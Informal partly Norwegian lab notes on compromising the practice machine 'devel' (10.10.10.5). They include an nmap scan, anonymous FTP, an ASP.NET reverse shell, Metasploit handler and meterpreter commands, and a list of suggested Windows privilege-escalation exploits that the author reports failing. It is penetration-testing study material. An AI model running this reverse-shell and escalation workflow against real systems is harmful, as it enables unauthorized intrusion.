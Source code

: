 # devel 10.10.10.5

windows maskin

`oot@kali:~# nmap -sS -P0 10.10.10.5`

`Starting Nmap 7.40 ( https://nmap.org ) at 2017-05-26 09:47 EDT`

`Nmap scan report for 10.10.10.5`

`Host is up (0.061s latency).`

`Not shown: 998 filtered ports`

`PORT   STATE SERVICE`

`21/tcp open  ftp`

`80/tcp open  http`

logget inn **ftp **med **anonymous**.   login med -i som fjerner prompts

http kjører iis7


fikk et skikkelig shell med [https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/](https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/)


**windows 7 6.1 build 7600 x86**

**koble et shell rett inn i metasploit og oppgradere til meterpreter**



```
* use multi/handler

* set LHOST attack-machine

* set LPORT port-as-appropraite

* set payload windows/shell/reverse\_tcp

* exploit'
```


background session med ctrl z&lt;

`use post/multi/manage/shell_to_meterpreter`


kan her kjøre kommandoer. 


```
net users
```


```
Administrator            babis                    Guest**
``

/c whoami = iis apppool\**web**



**```
use post/multi/recon/local_exploit_suggester **
**FORSØKT ALLE DISSE UTEN HELL**



```

\[+\] 10.10.10.5 - exploit/windows/local/bypassuac\_eventvwr: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms10\_015\_kitrap0d: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ms10\_092\_schelevator: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms13\_053\_schlamperei: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms13\_081\_track\_popup\_menu: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms14\_058\_track\_popup\_menu: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms15\_004\_tswbproxy: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ms15\_051\_client\_copy\_image: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms16\_016\_webdav: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ms16\_032\_secondary\_logon\_handle\_privesc: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ppr\_flatten\_rec: The target appears to be vulnerable.
```

getsystem = ingenting

```

wmic qfe get
```

no work :(

sjekke hvilke prossesser som kjører med admin privelege.



```
use post/windows/gather/enum_patches    
```
msf post(shell_to_meterpreter) > use post/windows/gather/enum_patches
msf post(enum_patches) > set session 2
session => 2
msf post(enum_patches) > exploit

[-] Post failed: NoMethodError undefined method `[]' for nil:NilClass
[-] Call stack:
[-]   /usr/share/metasploit-framework/modules/post/windows/gather/enum_patches.rb:72:in `run'
[*] Post module execution completed





